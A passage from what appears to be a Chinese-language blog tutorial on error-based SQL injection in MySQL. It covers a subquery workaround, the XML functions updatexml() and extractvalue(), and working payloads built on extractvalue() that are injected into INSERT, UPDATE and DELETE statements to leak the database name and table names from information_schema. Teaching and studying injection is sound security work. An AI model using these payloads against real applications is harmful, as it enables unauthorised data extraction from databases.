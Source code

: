 [![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

　　修复代码：

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
UPDATE comments
   SET phrase =( SELECT phrase FROM
             (
                SELECT * FROM comments
             ) 
                 AS c1 
                 WHERE c1.uid=2 AND c1.id=2
               ) WHERE id =3;
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

　　说明：当你同时使用子查询读取相同的数据时，mysql不允许update、delete表中的数据；mysql会将from语句中的子查询作为一个临时表，将子查询封装到from语句中更深层的子查询中会使其被执行并存储的临时表中，然后在外部子查询中隐式引用

　　4. [updatexml() ](http://dev.mysql.com/doc/refman/5.1/en/xml-functions.html)[ 返回被替换的XML段], updatexml()是mysql中的XML函数，还有一个为extractvalue() [使用Xpath符号从xml字符串中提取值]，也是下文要用到的

　　eg. 　　SET @xml = '<a><b>X</b><b>Y</b></a>';

　　　　　　SET @i =1, @j = 2;
　　　　　　SELECT @i, ExtractValue(@xml, '//b[$@i]');

　　*//*`ExtractValue(xml_frag, xpath_expr)　　 //UpdateXML(xml_target, xpath_expr, new_xml)`

　　Xpath有较多限制，如不支持节点集的比较，不支持string()等函数，另外Xpath注入类似于SQL注入，语法上略有不同

 

## 0x03 使用extractvalue()函数

　　a. 载荷格式：or extractvalue(1,concat(0x7e,database())) or

　　b. 注入：

　　　INSERT INTO users (id, username, password) VALUES (2,'r00tgrok' or extractvalue(1,concat(0x7e,database())) or'', 'Pseudo_Z');

　　  UPDATE users SET password='Nicky' or extractvalue(1,concat(0x7e,database())) or'' WHERE id=2 and username='Pseudo_Z';

　　  DELETE FROM users WHERE id=1 or extractvalue(1,concat(0x7e,database())) or''; 

 

　　c.提取数据　

INSERT INTO users (id, username, password) VALUES (2,'r00tgrok' or extractvalue(1,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1))) or'', 'balabala');

　　dump操作及update、delete方法同上updatexml()

 

